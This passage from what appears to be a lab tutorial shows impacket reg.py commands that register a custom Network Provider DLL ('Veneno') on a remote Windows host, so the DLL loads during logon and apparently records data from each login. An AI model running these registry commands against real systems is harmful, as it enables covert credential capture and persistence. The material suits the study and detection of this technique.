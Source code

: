 <p align="center">
   <img src="/assets/img/NP-providers5.png">
</p>

```impacket
reg.py mokete@Windows10.brain.body add  -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider' -v Name -vt REG_SZ -vd Veneno
```

<p align="center">
   <img src="/assets/img/NP-providers6.png">
</p>
At the end we add the dll path in the cretated registers, we use the lasts commands,  with this our dll is going to be user in the authenticated process.
```impacket
reg.py mokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider' -v ProviderPath -vt REG_EXPAND_SZ -vd "C:\users\public\Downloads\NetworkProvider.dll"
```

<p align="center">
   <img src="/assets/img/NP-providers7.png">
</p>

To check if all is right, we only have to make login in the machine and  go to the path where is indicated in the dll code.

<p align="center">